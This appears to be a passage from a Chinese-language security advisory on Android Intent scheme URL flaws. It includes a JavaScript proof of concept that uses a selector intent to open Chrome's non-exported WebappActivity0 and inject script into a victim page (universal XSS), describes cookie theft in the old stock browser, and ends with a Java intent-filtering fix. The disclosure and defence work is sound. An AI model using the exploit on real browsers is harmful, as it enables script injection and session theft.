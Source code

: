 “SEL” 部分就是 selector intent 的指示器。

上述 Intent scheme URL 为 Chrome 提供了一个 component 为 `com.android.chrome/.xyz` 的 intent，在这种情况下，即使 component 所指向的 activity 没有设置 BROWSABLE category 也是可以调用的。恶意 web 页面可以利用这一点去调用执行 chrome 的非导出 activity(包括哪些没有设置 BROWSABLE category 的activity)。

至此我们面对的新问题是，Chrome 是否存在非导出(或导出)的 activity 可以接收 intent-based 攻击。通过研究我们发现 WebappActivity 可以被 UXSS(Universal XSS 通用 XSS )攻陷。通过 JavaScript 发起攻击的一个例子如下：

```javascript
<script>

// open target web page (http://victim.example.jp/) in WebAppActivity0

location.href = "intent:#Intent;S.webapp_url=http://victim.example.jp;l.webapp_id=0;SEL;component=com.android.chrome/com.google.android.apps.chrome.webapps.WebappActivity0;end";

// a few seconds later, inject javascript payload into target web page

setTimeout(
    function() {
        location.href = "intent:#Intent;S.webapp_url=javascript:(malicious javascript code);l.webapp_id=1;SEL;component=com.android.chrome/com.google.android.apps.chrome.webapps.WebappActivity0;end";
        }
    , 2000);
</script>
```

在以上的代码中，恶意 web 页面两次明确的启动了 `com.google.android.apps.chrome.webapps.WebappActivity0` 。这个 activity 是一个非导出的 activity 并且它不包含 BROWSABLE category，但是 web 页面可以通过使用携带 selector intent 的 intent scheme URL 启动它。

我们的 PoC 代码中，第一次关注点在“通过 Web 页面启动 WebappActivity0”，第二次在启动目标 activity 的 web 页面中注入了恶意 JavaScript 代码。这意味着攻击者可以在基于 http/https 的 web 页面中注入任意 JavaScript 代码。(这就是 Universal XSS)。

据我们所知，旧版的 Chrome(v.30.0.1599.92) 存在 UXSS 漏洞。新版本的漏洞不再像旧版本呢一样容易利用，因为 WebappActivity0 已经修改为在新的 tab 中打开 URL。然而潜在的风险依然存在，因为当前版本的 Chrome 依然没有过滤 selector intent，所以恶意 web 页面可以启动 Chrome 的非导出 activity。

### 4.3、旧版本 stock 浏览器 Cookie 窃取
android stock browser(com.android.browser) 存在相似的漏洞。像 Android Chrome 一样，stock broswer 没有恰当地过滤 selector intent ，以至于攻击者可以通过恶意 web page 启动 stock browser 的任意 activity。

这种缺陷可以被用来窃取 cookie ，这一点和 Opera 浏览器很像。但是最近的 android 模拟器(>= android4.3 Level 18)或许不会受到影响，因为旧版本的 stock 浏览器不在被默认安装到每一个设备中了。

## 五、 解决方案

在这个报告中，我们解释了通过 Intent scheme URL 发起的恶意攻击，在三款 android 浏览器中存在漏洞。像第四部分说的一样，不恰当的使用 Intent Scheme URL 可能造成严重的漏洞，例如 Cookie 窃取和 UXSS。

针对这种攻击的操作是过滤 Intent 对象(从 Intent Scheme URL 转换而来的 Intent 对象)。过滤方式：

```java
// convert intent scheme URL to intent object
Intent intent = Intent.parseUri(uri);
// forbid launching activities without BROWSABLE category
intent.addCategory("android.intent.category.BROWSABLE");
// forbid explicit call
intent.setComponent(null);
// forbid intent with selector intent
intent.setSelector(null);
// start the activity by the intent
context.startActivityIfNeeded(intent, -1);
```
